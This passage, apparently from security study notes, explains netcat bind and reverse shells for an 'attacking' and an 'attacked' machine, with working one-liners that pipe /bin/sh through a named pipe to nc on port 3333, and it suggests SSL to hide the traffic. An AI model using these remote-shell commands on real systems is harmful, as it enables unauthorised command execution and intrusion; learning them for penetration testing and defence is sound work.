 ```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 3333 > /tmp/f 
 # keeps an opened port, in this case "3333" to 
 # execute commands from a remote machine
```

on the attacking machine (the one from where we will issue 
commands) instead we execute:

```sh
nc 127.0.0.1 3333
```

Bind Shell and Reverse Shell can be more elegant by using ssl, in 
order to not let other decrypt the traffic.


### Reverse Shell with minimal Netcat (nc without --exec or -e)

![Reverse Shell](img/Reverse_Shell_Scenario.png)

On the attacking machine (which could be a VPS) we execute:

```sh
nc -nlvp 3333 
 # this is the local machine on which we keep a 
 # port opened to issue commands and view the output
```

On the attacked machine we have to issue:

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 127.0.0.1 3333 > /tmp/f 
 # this has to be issued on the attacked machine
```

now from the attacking machine we can issue commands and see output.


### Other Ncat Things

For all other Ncat things, see "man ncat", to see a complete list 
of flags and options, especially the part about "Examples".

